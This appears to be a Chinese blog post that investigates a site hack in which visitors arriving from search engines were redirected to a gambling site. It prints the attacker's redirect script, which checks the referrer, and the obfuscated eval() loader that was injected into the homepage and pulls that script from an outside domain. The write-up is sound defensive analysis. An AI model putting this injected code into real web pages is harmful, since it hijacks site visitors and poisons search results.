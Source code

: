 ## 记一次站点被挂马问题排查

---
起因，在下班准备回家之际，收到几条朋友发来的信息，说他的网站在百度搜索做信息流广告推广，但是从百度搜索点击打开就会跳转的博彩网站，让我帮忙排查下问题，是不是被挂马了，于是乎就开始了后面的故事

---
> 为了保护网站隐私，假定网站地址是：http://www.xxx.com

收到消息后我尝试操作并收集到下面现象内容：

现象1：通过域名直接打开网站，可以正常打开，不会跳转到博彩站    
现象2：通过百度/搜狗搜索引擎，搜索到网站后点击打开就会跳转到博彩站

---











#### 开始排查 

* **网站是怎么跳转的？** 

网站跳转无非就是这两种：服务端重定向跳转/前端JS触发跳转，我开始用Charles抓包，列出抓包请求发起顺序大概是这样的（省略无关的请求）：

1. http://www.xxx.com
2. https://www.cpdas8.com/cxc.js
3. https://www.das8cx.com/ [博彩站]

先打开站点www.xxx.com返回Code=200，不是服务端重定向Code=302，是由前端发起跳转，并且注意到：cxc.js，请求头Referer=www.xxx.com，这个并非站点前端开发需要引入的脚本，打开地址看代码如下：


```javascript

(function () {
    /*百度推送代码*/
     var bp = document.createElement('script');
     bp.src = '//push.zhanzhang.baidu.com/push.js';
     var s = document.getElementsByTagName("script")[0];
     s.parentNode.insertBefore(bp, s);
     /*360推送代码*/
     var src = document.location.protocol + '//js.passport.qihucdn.com/11.0.1.js?8113138f123429f4e46184e7146e43d9';
     document.write('<script src="' + src + '" id="sozz"><\/script>');
     })();

document.writeln("<script LANGUAGE=\"Javascript\">");
document.writeln("var s=document.referrer");
document.writeln("if(s.indexOf(\"baidu\")>0 || s.indexOf(\"sogou\")>0 || s.indexOf(\"soso\")>0 ||s.indexOf(\"sm\")>0 ||s.indexOf(\"uc\")>0 ||s.indexOf(\"bing\")>0 ||s.indexOf(\"yahoo\")>0 ||s.indexOf(\"so\")>0 )");
document.writeln("location.href=\"https://www.das8cx.com/\";");
document.writeln("</script>");

```

看代码就知道抓到了元凶，这里执行了location.href到博彩站，但是看主页html源码里并没有cxc.js的引入，继续后面的排查

---

* **cxc.js是如何在主页里引入的？**

带着这个疑问，打开了首页源码，大概过了下，没有发现引入脚本的地方，就开始怀疑是不是动态引入的，再次查看源码，看到一段被混淆加密压缩过代码：
```javascript
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('l["\\d\\e\\1\\m\\j\\8\\n\\0"]["\\6\\4\\9\\0\\8"](\'\\i\\2\\1\\4\\9\\3\\0 \\0\\k\\3\\8\\c\\7\\0\\8\\h\\0\\5\\f\\b\\q\\b\\2\\1\\4\\9\\3\\0\\7 \\2\\4\\1\\c\\7\\o\\0\\0\\3\\2\\p\\5\\5\\6\\6\\6\\a\\1\\3\\d\\b\\2\\r\\a\\1\\e\\j\\5\\1\\h\\1\\a\\f\\2\\7\\g\\i\\5\\2\\1\\4\\9\\3\\0\\g\');',28,28,'x74|x63|x73|x70|x72|x2f|x77|x22|x65|x69|x2e|x61|x3d|x64|x6f|x6a|x3e|x78|x3c|x6d|x79|window|x75|x6e|x68|x3a|x76|x38'.split('|'),0,{}))
```
感觉事蹊跷，不管三七二十一先到谷歌开发者工具控制台里执行看看，截取重要提示信息：
```
A parser-blocking, cross site (i.e. different eTLD+1) script,https://www.cpdas8.com/cxc.js, is invoked via document.write

```
![image](http://blog.thankbabe.com/imgs/mm_tz.png)

明了了，就是这段脚本把cxc.js动态的引入到站点里，现在跳转的原因是找到了，但是为啥会好端端的多了这段代码，继续后面的分析

---

* **为什么主页源码会被篡改加入了一段脚本呢？**

站点是通过阿里云服务器的虚拟空间进行部署的，服务器本身应该没有问题
目前猜测有两种可能性：
1. FTP暴力破解，成功连接上FTP后进行篡改
2. 站点安全漏洞，被上传了木马程序后被执行，篡改了源码

后面问了下FTP密码是设置的挺简单的，所以评估可能是FTP暴力破解导致，细思极恐

---
番外，里面还有段篡改SEO关键词代码，这里也需要去掉：   
篡改了keyword/description/title
![image](http://blog.thankbabe.com/imgs/mm_seo.png?v=666)

---

#### 问题总结：

通过抓包和代码分析可以知道跳转到博彩站的流程是这样的：
1. 打开首页，脚本执行了evel(混淆加密压缩)，动态引入cxc.js
2. 引入的cxc.js里执行了(function (){/* 跳转逻辑 */})()，如果站点referrer是搜索引擎过来的就跳转到博彩站，不是就不做跳转直接正常打开站点
3. 知道原理后就很清晰明白上面现象的原因，并且可以很清楚的怎么去修复

站点源码被侵入篡改问题：

* 站点的开发需要注意WEB安全问题，文件上传漏洞，脚本注入，SQL注入，跨站攻击，等
* 站点的服务器/FTP/后台账号密码，不要设置的太随意，要有一定的复杂度，不然很容易被暴力破解

---
辅助手段-网站安全检测：
* [华为漏洞扫描服务](https://www.huaweicloud.com/product/vss.html)
* [360网站安全](http://webscan.360.cn/)
* [百度网站体检](https://ziyuan.baidu.com/safe/)
* [百度云观测](http://ce.baidu.com/index/guance)


---
> 发布时间：2018-09-13